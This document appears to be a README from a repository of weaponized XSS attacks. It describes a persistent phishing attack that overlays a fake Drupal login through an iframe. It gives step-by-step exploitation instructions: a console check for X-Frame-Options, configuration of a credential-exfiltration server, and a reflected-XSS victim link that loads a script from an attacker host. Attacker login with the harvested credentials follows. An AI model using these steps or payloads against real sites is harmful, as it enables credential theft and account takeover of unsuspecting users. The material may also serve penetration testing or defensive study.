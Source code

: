 # [Phish] Iframe Login Page

* **NOTES**:
  * stealthy
  * persistent
    * exploit stays active:
      * upon failed login
      * upon logout (i.e. login ➔ logout)
    * exploit will remain active until victim's web browsers cache is cleared
  * avoids excessive log spam
    * exploit exfiltrates credentials only on submit form event (logs both successful and failed authentication attempts)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [test target login page] navigate to target application in web browser

    http://192.168.5.17

2. [test target login page] confirm target login is iframe-able

    *(open developer console and execute following code)*

    ```
    const url = "http://192.168.5.17/user/login";
    const req = new XMLHttpRequest();
    req.open("GET", url, false);
    req.send(null);
    console.log("Endpoint: " + url + "\nX-Frame-Options (response header): " + req.getResponseHeader("X-Frame-Options"));
    ```

    * **NOTE**: default install value: `SAMEORGIN` (vulnerable)

3. [setup exploit] change payload variable values (`phishLoginDrupal.js`)

    `exfilWebServer` - web server URL for credential exfiltration

    `drupalRoot` - path to Drupal installation on the target system (e.g. `"/drupal"`)

4. [setup exploit] setup web server (to serve the payload)

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.17/rxss.php?q=<script src=http://192.168.5.5/phishLoginDrupal.js></script>
    ```

    * **NOTES**:
      * `192.168.5.17` - target Drupal site
      * `192.168.5.5` - web server hosting the payload

6. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

7. [post exploit] attacker logs into target Drupal site using obtained credentials

    http://192.168.5.17/user/login

## Screenshot

* **NOTE**: the screenshot covers steps 3 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/Drupal/IframeLogin/screenshots/Drupal_-_iframe_login_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/8410fe5a-2bad-409a-a52f-479e15ca0dc0

